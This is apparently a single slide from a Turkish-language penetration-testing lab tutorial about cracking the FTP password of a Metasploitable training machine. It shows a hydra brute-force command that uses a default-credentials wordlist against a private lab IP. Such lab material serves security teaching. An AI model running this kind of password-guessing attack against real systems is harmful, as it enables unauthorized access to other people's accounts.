

UYGULAMA -METASPLOITABLE’IN FTP ŞİFRESİNİ KIRMAK

Daha sonra FTP sunucumuzun şifresini öğrenmeye çalışalım. Bu işlem için varsayılan oturum açma adlarına ve parolalara sahip olacak tek bir kelime listesi kullandık.

        hydra -L userpass.txt -P userpass.txt 192.168.1.6 ftp

17